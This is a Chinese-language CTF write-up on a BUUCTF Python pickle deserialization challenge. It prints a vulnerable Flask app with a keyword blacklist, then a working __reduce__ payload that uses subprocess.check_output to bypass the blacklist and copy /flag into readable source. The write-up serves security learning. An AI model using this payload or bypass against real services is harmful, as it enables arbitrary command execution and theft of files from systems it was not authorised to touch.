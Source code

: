 ### Python Pickle 反序列化 subprocess

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67ba18c2d0e0a243d4023da3.png)

提示了源码在 /src 目录，直接访问

![](https://pic1.imgdb.cn/item/67bac035d0e0a243d40275a5.png)

```python
import builtins
import io
import sys
import uuid
from flask import Flask, request,jsonify,session
import pickle
import base64


app = Flask(__name__)

app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "")


class User:
    def __init__(self, username, password, auth='ctfer'):
        self.username = username
        self.password = password
        self.auth = auth

password = str(uuid.uuid4()).replace("-", "")
Admin = User('admin', password,"admin")

@app.route('/')
def index():
    return "Welcome to my application"


@app.route('/login', methods=['GET', 'POST'])
def post_login():
    if request.method == 'POST':

        username = request.form['username']
        password = request.form['password']


        if username == 'admin' :
            if password == admin.password:
                session['username'] = "admin"
                return "Welcome Admin"
            else:
                return "Invalid Credentials"
        else:
            session['username'] = username


    return '''
        <form method="post">
        <!-- /src may help you>
            Username: <input type="text" name="username"><br>
            Password: <input type="password" name="password"><br>
            <input type="submit" value="Login">
        </form>
    '''


@app.route('/ppicklee', methods=['POST'])
def ppicklee():
    data = request.form['data']

    sys.modules['os'] = "not allowed"
    sys.modules['sys'] = "not allowed"
    try:

        pickle_data = base64.b64decode(data)
        for i in {"os", "system", "eval", 'setstate', "globals", 'exec', '__builtins__', 'template', 'render', '\\',
                 'compile', 'requests', 'exit',  'pickle',"class","mro","flask","sys","base","init","config","session"}:
            if i.encode() in pickle_data:
                return i+" waf !!!!!!!"

        pickle.loads(pickle_data)
        return "success pickle"
    except Exception as e:
        return "fail pickle"


@app.route('/admin', methods=['POST'])
def admin():
    username = session['username']
    if username != "admin":
        return jsonify({"message": 'You are not admin!'})
    return "Welcome Admin"


@app.route('/src')
def src():
    return  open("app.py", "r",encoding="utf-8").read()

if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=False, port=5000)
```

- `/ppicklee` 路由只支持 `POST` 方法。
- 从表单中获取 `data` 字段，并进行 Base64 解码。
- 通过 `sys.modules` 禁用 `os` 和 `sys` 模块。
- 检查反序列化数据中是否包含黑名单中的关键字，如果包含则返回错误信息。
- 如果数据通过检查，则尝试反序列化数据，成功返回 `success pickle`，失败返回 `fail pickle`

因为题目告诉了我们 flag 在 /flag下，且其 src 路由会读取文件 app.py 内容并输出

因为禁用了 os 和 sys 模块，所以我们使用另一个模块 **subprocess** 执行系统命令

```python
import pickle
import base64
import subprocess

# __reduce__ 方法: 这是 pickle 模块中的一个特殊方法，用于定义对象在序列化时的行为，它返回一个元组，包含一个可调用对象（通常是函数）及其参数
# subprocess.check_output: 这是一个函数，用于执行系统命令并返回输出
class A():
    def __reduce__(self):
        return subprocess.check_output, (["cp", "/flag", "/app/app.py"],)


a = A()
b = pickle.dumps(a)

print(base64.b64encode(b))
```

![](https://pic1.imgdb.cn/item/67bb328ed0e0a243d402bf17.png)

访问 src 目录拿到 flag

![](https://pic1.imgdb.cn/item/67bb3283d0e0a243d402bf07.png)
